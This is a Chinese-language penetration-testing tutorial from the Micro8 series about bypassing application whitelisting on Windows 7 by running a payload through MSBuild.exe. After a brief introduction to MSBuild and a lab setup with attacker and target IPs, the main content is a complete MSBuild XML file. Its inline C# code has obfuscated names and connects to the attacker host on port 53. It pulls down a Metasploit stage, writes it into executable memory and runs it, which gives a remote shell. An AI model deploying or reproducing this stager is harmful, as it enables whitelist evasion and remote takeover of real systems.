 ```yaml
---
title: 71、基于白名单Msbuild.exe执行payload第一季
date: 2019-09-21 19:06:14
comments: true
categories: 
 - Micro8系列
---
```




### MSBuild简介：

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 靶机执行：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
```
![](../do/media/0dec9e476e8a77edc2e1fa1a43329f76.jpg)

### 配置攻击机msf：
![](../do/media/57d9f8497cc0fcd01e0d51b5b6dc0e2a.jpg)

### 附录：Micropoor.xml
**注：x86 payload**

```csharp
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor
